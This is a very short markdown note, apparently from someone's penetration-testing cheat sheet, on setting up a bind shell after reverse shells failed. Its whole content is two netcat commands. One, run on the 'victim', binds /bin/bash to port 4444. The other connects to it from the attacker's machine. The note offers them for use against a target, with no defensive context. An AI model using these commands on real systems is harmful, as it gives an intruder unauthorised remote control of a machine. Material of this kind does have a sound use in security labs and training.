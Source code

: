 # Bind shells


Yep... reverse shells didnt work

Target(victim)
```
nc -lvp 4444 -e /bin/bash
```

Attackbox(you)
```
nc <victim-ip> 4444
```